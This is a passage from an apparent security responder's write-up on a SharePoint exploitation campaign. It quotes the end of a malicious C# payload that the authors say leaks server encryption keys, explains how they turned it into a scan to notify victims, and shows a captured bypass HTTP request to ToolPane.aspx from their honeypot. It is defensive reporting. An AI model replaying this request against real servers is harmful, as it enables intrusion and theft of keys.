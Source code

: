 ```csharp
      current.Response.End();
    }
    catch (Exception ex)
    {
    }
  }
}
```

That's it, it manages to run the embed DLL and forces the server to change its
http reply. Who is it? A security company?

We don't know that (yet), but one thing is for sure, it is leaking the
encryption keys as well, and most likely keeping it for later!

# The scan v1

That's all we needed really, a way to determine vulnerability with a single
request, and this one provides all the information we need to ensure people
understand they are vulnerable!

So on we went, and after checking nothing was hurtful, we used their weapon, and
started notifying people!

# The bypass

Oh yes, also, we kept this in the corner of our mind:

{{< x user="DIVD_nl" id="1946850548046524533" >}}

None of the payloads previously shared had any trace of that slash, until, on
the 23rd of July, our honeypot received this version of the payload:

(Thank you `213.168.178.210`)

```http request
POST /_layouts/15/toolpane.aspx/xxx?DisplayMode=Edit&xxx=/ToolPane.aspx HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36 Edg/138.0.0.0
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: Windows
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Referer: /_layouts/./SignOut.aspx
Content-Type: application/x-www-form-urlencoded
Content-Length: 5204

```